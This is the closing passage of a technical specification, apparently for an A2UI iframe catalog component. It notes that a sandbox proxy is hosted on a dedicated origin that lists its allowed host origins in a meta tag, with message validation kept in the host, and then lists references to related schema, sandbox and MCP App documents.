  dedicated origin in production and list the host origin in its `a2ui-sandbox-host-origins` meta
  tag. The proxy isolates the content; message validation (Section 5.5) stays in the host.

# References

- [Iframe catalog schema](catalog.json)
- [Sandbox proxy](../../typescript/catalogs/shared/sandbox/README.md)
- [MCP App component specification](../mcp/v1/mcp_app_specification.md), which shares the sandbox
  proxy
- [MCP Apps in A2UI](https://a2ui.org/guides/mcp-apps-in-a2ui/)
- [What's new in A2UI v1.0](https://a2ui.org/specification/v1.0-evolution-guide/)
